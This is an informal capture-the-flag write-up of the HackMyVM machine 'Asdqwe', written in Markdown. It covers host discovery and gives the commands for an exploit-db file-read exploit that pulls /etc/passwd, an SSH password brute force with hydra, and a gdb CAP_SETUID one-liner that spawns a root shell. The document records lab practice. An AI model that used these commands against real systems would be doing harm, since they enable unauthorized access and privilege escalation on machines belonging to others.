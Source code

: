 # qweasd
**network discovery**
```
I usually use __Fping__ command to watch active machines in my network  
```
![fping_image](images/fping.png)
```
i saw the __192.168.1.113__ is my the **CTF** machine 
![namp]https://github.com/HosseinVampire/Writeups/blob/main/Hackmyvm/Asdqwe/images/fping.png)
```

### FIND 8080 port lets check it
```
i did some search on site but nothing ....
only got this information 
```
![info](images/information.png)
```
i tried to brouteforce the login page but its seems to protected  so i got stuck 
```
##  Exploit-db
```
i check exploit-db  and this is result 
```
![exploit-db](images/searchsploit.png)
```
exploit number is  __51993__
i import the file and can read some files  
```
```bash
python 51993.py  -u http://192.168.1.113:8080 -p /etc/passwd
```
### Content of passwd :

![passwd](images/passwd.png)

```
users that have bash : Root , kali , penetration 
*i serched a lot for id_rsa or any password but nothing ...*
i spend a 30 min to figure the solution of gettin a shell it  .   
from the name of machine i thought that password might be a silly  so ...
```


## Hydra
**hydra -l kali -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  ssh://192.168.1.113**
![hydrapassword](images/hydra.png)

## PRIV ESC - ROOT
``` 
Getting root was easy 
check  capabilities and got below results :
```
[cap](images/setuiddiscovery.png)
```
Find *GDB* command that got capabilities 
```
```
**If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.**
```
# ROOT ACCESS :
```
**gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit**
```
DONE :)

![root](images/root.png)
```
it is my first write up, im sorry if i explained bad <3
```



## thanks to my friend ll104567 for tips 
### you can check his bilibili url 
its his biliblii url : [site](https://space.bilibili.com/20805349)